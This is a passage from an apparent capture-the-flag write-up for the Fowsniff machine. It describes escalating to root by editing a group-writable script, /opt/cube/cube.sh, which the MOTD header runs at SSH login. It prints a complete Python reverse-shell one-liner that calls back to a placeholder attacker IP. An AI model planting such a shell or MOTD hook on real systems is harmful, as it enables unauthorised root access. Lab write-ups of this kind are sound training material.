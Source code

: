 We are in!


## 3. PrivEsc
The room hints us to look at the files owned by the group. Using `find / -type f -group users`, we get a file on the top named: ` /opt/cube/cube.sh`

Exploring more, we get the following file.
```
{hidden-username}@fowsniff:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#    {truncated}
#

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```

This means that as soon as you connect to ssh, the `update-motd.d` file is run, and the banner, stored in `/opt/cube/cube.sh` is shown to you. 

Since we found this *because* we are in this group, we can edit this. This means we can now put in a reverse shell. From [Reverse Shell Generator](https://www.revshells.com/),

`export RHOST="{MY_IP}";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`

And ...
![getting root on fowsniff ctf exploiting motd.d](https://i.imgur.com/KXBPVdy.png)

System compromised!
